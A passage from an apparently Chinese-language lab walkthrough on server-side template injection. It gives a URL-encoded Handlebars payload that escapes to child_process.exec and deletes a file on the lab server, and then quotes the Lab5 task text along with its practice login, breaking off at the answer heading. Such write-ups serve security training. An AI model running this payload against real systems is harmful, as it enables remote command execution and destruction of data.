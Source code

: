 ```
wrtz%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%20%20%20%20%7B%7B%23with%20%22e%22%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%28lookup%20string.sub%20%22constructor%22%29%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20require%28%27child_process%27%29.exec%28%27rm%20%2Fhome%2Fcarlos%2Fmorale.txt%27%29%3B%22%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string.sub.apply%200%20codelist%29%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D
```

<img src=".\图片\Snipaste_2023-08-01_14-47-50.png" alt="Snipaste_2023-08-01_14-47-50" style="zoom:67%;" />

## Lab5

### 题目

```
Lab: Server-side template injection with information disclosure via user-supplied objects
PRACTITIONER

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:

content-manager:C0nt3ntM4n4g3r
```

### 答案
